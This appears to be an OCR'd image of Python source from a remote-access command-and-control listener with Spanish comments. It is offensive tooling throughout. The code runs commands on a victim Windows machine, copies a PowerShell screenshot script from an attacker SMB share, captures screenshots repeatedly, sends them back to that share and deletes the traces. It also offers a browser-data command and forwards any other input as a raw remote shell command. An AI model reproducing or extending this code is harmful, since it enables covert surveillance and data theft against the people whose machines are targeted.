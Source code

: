 ```python
        self.remote_execute("cd Local")
        self.remote_execute("cd Temp")
        self.remote_execute("powershell .\\screenshot.ps1")
        self.remote_execute(f"copy %TEMP%\\screenshot.bmp \\\\192.168.1.164\\share\\")
        self.remote_execute(f"del %TEMP%\\screenshot.bmp")
        if not os.path.exists("Command_and_control_server/Screenshot"):
           os.makedirs("Command_and_control_server/Screenshot")

        os.system(f"mv Command_and_control_server/uploads/screenshot.bmp Command_and_control_server/Screenshot/{command.split()[-1]}")
        print("\n"+Fore.YELLOW+"[+]"+Fore.WHITE+" Screenshot "+Fore.GREEN+ command.split()[-1]+Fore.WHITE+" moved to directory"+Fore.GREEN+" Command_and_control_server/Screenshot\n")


    def get_screenshot_spam(self,seconds,times):
      print(Fore.YELLOW+"\n[+]"+Fore.WHITE+" Initiating screenshot spamming every "+Fore.GREEN+seconds+Fore.WHITE+" seconds "+Fore.GREEN+times+Fore.WHITE+" times:\n")
      self.remote_execute("copy \\\\192.168.1.164\\share\\screenshot.ps1 %TEMP%")
      user=self.remote_execute("whoami").split("\\")[-1]
      self.remote_execute("cd ..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..")
      self.remote_execute("cd Users")
      self.remote_execute(f"cd {user}")
      self.remote_execute("cd AppData")
      self.remote_execute("cd Local")
      self.remote_execute("cd Temp")
      for i in range(int(times)):
        self.remote_execute("powershell .\\screenshot.ps1")
        self.remote_execute(f"copy %TEMP%\\screenshot.bmp \\\\192.168.1.164\\share\\")
        self.remote_execute(f"del %TEMP%\\screenshot.bmp")
        if not os.path.exists("Command_and_control_server/Screenshot"):
          os.makedirs("Command_and_control_server/Screenshot")
        print(Fore.YELLOW+"[+]"+Fore.WHITE+" Screenshot"+Fore.GREEN+" screenshot"+str(i)+Fore.WHITE+" moved to directory"+Fore.GREEN+" Command_and_control_server/Screenshot\n")

        os.system(f"mv Command_and_control_server/uploads/screenshot.bmp Command_and_control_server/Screenshot/screenshot{i}.bmp")
        time.sleep(int(seconds))




    # Método para ejecutar el listener
    def run(self):
        while True:
            command = input(Fore.GREEN + " $" + "NoC > " + Fore.WHITE)
            if command == "get users":
                self.get_users()
            elif command == "help":
                self.show_help()
            elif command == "get browser":
                self.get_browser()
            elif command.split()[0] == "get" and command.split()[1]== "screenshot"  and len(command.split())==3:
                self.get_screenshot(command)
            elif command.split()[0] == "get" and command.split()[1]== "screenshot" and command.split()[2] == "spam" and len(command.split())==5:
                self.get_screenshot_spam(command.split()[3], command.split()[4])
            else:
                command_output = self.remote_execute(command)
                print(command_output)

    # Método para enviar correos electrónicos
```